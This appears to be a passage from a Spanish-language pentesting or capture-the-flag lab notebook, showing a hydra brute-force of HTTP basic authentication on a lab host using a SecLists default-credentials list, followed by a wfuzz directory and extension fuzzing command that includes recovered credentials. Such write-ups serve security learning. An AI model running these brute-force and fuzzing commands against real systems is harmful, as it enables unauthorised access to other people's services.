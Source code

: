 
![[Pasted image 20250715180411.png]]

Vamos a usar un diccionario de seclists que contenga usuarios y contraseñas de la siguiente forma `user:pass`, en este caso estaremos haciendo uso del siguiente diccionario de credenciales por defecto `/usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`.

```
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 172.17.0.3 -s 80 http-get /
```

![[Pasted image 20250715180750.png]]

Ahora, si queremos aplicar fuzzing, lo podemos hacer de la siguiente manera:

```
wfuzz -c -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --basic httpadmin:fhttpadmin -z list,php,txt,html,xml --hc=401,404 -u "http://172.17.0.3/FUZZ.FUZ2Z"
```


